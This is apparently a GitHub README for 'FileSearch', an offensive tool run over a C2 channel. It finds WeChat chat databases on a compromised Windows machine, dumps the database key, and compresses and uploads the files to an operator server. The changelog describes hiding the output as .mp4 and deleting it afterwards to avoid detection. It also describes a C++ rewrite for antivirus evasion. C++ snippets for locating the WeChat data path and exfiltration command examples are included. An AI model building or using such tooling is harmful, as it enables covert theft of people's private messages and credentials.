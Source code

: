 # FileSearch

## 更新
### v1.3

1、排除c盘符的查找指定类型文件，避免大量缓存文件，加了个参数在c:\\users目录下查找

2、运行成功后删除掉生成出来的文件夹以及压缩包，以免文件较大被察觉，文件后缀修改成了mp4

3、(碰到vx用户自设的保存路径，需要加个指定路径去dump)

![](https://images.zsxq.com/Fr7-9bEGX922u_WCD00vgKzoQkvE?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1672502399&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:g2IPF0-87rABGDbCjicVM8bm79g=)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe send 127.0.0.1 8888 vxpath
[+] FileUpload.exe upload path 127.0.0.1 8888
[+] FileUpload.exe all 127.0.0.1 8888
[+] FileUpload.exe user 127.0.0.1 8888
```



### v1.2(暂不开源)
实现效果：
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665471090145-08f5b557-680f-4c8c-8fce-9574d581f81d.png)


实战中发现全盘查找微信db在c2中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径


```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe upload path 127.0.0.1 8888
```

### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
